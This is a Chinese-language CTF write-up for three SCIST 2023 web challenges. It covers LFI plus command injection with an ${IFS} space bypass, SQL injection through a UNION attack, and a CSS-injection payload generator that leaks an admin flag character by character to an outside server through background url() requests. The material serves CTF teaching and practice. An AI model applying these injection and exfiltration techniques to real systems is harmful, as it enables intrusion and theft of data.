


# Web

## fakelog

### description

這是一個測試用 log 產生器。試著找到漏洞取得檔案，並試著成功 RCE！！

### solution

透過觀看 `/howtogen` Line14 可以發現 gen.py 存在 LFI

```python=
#!/usr/local/bin/python3
import sys

if __name__ == '__main__':
    if len(sys.argv) < 2:
        print("no argument")
        sys.exit()

    magic_num = int(sys.argv[1]) if sys.argv[1].isdigit() else sys.argv[1]
    if magic_num == 0:
        print("0 is not allowed")
        sys.exit()
    while magic_num != 1:
        with open(f"fakelog/{magic_num % 6 if isinstance(magic_num, int) else magic_num}", "r", encoding="utf-8") as fd:
            print(fd.read())
        magic_num = 3 * magic_num + 1 if magic_num % 2 else magic_num // 2
```

接下來看 `/hint` Dockerfile 可以知道主程式在 `/app/main.py`

```Dockerfile=
FROM python:3.10
RUN curl -sSL https://install.python-poetry.org | POETRY_HOME=/etc/poetry python3 -
WORKDIR /app

COPY pyproject.toml poetry.lock .
RUN /etc/poetry/bin/poetry config virtualenvs.create false && \
    /etc/poetry/bin/poetry install
COPY . .
ARG FLAG
RUN echo $FLAG > /app/flag_`cat /dev/urandom | tr -dc 'a-zA-Z0-9' | fold -w 8 | head -n 1`
USER daemon
ENTRYPOINT ["python", "/app/main.py"]
```

透過 LFI 去看 `/app/main.py` 的運作邏輯

```python=
@app.route('/gen', methods=['GET', 'POST'])
def get_input():
    message = None
    if request.method == 'POST':
        user_input = request.form['user_input']
        if " " in user_input:
            result = "evil input"
        else:
            result = subprocess.run(
                f"python gen.py {user_input}", shell=True, capture_output=True, text=True).stdout.replace('\\n', '')
        message = f"result: \n{result}"
    return render_template('generate.html', message=message)
```

可以看到是透過 subprocess 去跑的，同時有著 cmdi，但有空白的話就會被當成 evil input，這可以透過 ${IFS} 去繞，於是就能 RCE 了。

https://github.com/Vincent550102/My-CTF-Challenge/blob/main/scist-2023-final/fakelog/exploit.sh

---

## fakelog-sql

### description

我為我的 fakelog 產生器架了一個資料庫… 應該會更安全吧

### solution

可以看到 Database 有一個明顯的 sqli

```python=
    def get_fakelog(self, log_id):
        try:
            cursor = self.conn.execute(
                f"SELECT * FROM fakelog WHERE id = {log_id}")
            fakelogs = cursor.fetchall()
            return fakelogs
        except Exception as e:
            return str(e)
```

再觀察 `gen.py` 若是以字串傳入就會直接被 database 使用

```python=
# get fake log from database
results = database.get_fakelog(
	magic_num % 6 if isinstance(magic_num, int) else magic_num)
```

另外會檢查第二個回傳值是否是以 FAKE 開頭，可以使用 union attack 構造 payload




https://github.com/Vincent550102/My-CTF-Challenge/blob/main/scist-2023-final/fakelog-sql/exploit.sh

---

## Cross-Style Sheets

### description

我做了一個留言板，使用者可以插入任意 html 還能分享給別人，而且為了防止 XSS 我用了最新版本的 DOMpurify 擋掉了壞壞 JavaScript，這個網站看起來非常安全><。

用前端技巧取得管理員的 flag 吧！

flag 格式：SCIST{[a-zA-Z0-9()_]+}

### solution

正常使用了最新版 DOMpurify 基本上可以暫時先不考慮 XSS 了。

觀察到 Flag 會以 `<p name="hereisflag" value="{{ username }}">Welcome, {{ username }}</p>` 出現在頁面上，然後題目名稱提示了 CSS，我們就想到可以使用 [CSS injection](https://blog.huli.tw/2022/09/29/css-injection-1/) 去一個一個 leak admin 的 flag。

```python=
temp = """p[name="hereisflag"][value^="scist{}"] {{background: url(http://ocrserver.vincent55.tw:7787?q=scist{});}} """
payload = ""
for c in char_set:
	payload += temp.format(c, c)
print(payload)
```

https://github.com/Vincent550102/My-CTF-Challenge/blob/main/scist-2023-final/CrossStyleSheets/exploit.py
